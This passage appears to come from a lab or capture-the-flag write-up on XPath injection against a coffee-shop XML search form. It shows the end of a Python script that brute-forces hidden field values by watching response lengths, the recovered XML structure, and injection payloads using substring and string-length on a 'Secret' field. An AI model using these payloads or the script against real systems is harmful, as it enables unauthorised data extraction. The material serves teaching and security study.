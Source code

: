 ```python
                }
                
                r = requests.post(main_url, data=post_data)

                if len(r.text) != 8691 and len(r.text) != 8692:
                    data += character
                    p2.status(data)
                    break
        
        if first_position != 5:
            data += ":"

    p1.success("Brute force attack ended")
    p2.success(data)

if __name__ == '__main__':
    xPathInjection()
```

Resetting the tags that we have discovered our *XML* would look like this:

```xml
<Coffees>
	<Coffee>
		<ID></ID>
		<Name></Name>
		<Desc></Desc>
		<Price></Price>
		<Secret></Secret>
	</Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
	<Coffee></Coffee>
</Coffees>
```

To obtain the value of the fields it could be done in the following way:

```bash
# As I am filtering for this product, the "1", when referring to "Secret", will already know that it refers to an attribute of this product and the comparison can be applied directly
search=1' and substring(Secret,1,1)='T&submit=

# We could also see the number of characters in length of the field
search=1' and string-length(Secret)='17&submit=
```

As in the previous examples, you could automate the brute force process by using a *Python* script to obtain the rest of the characters.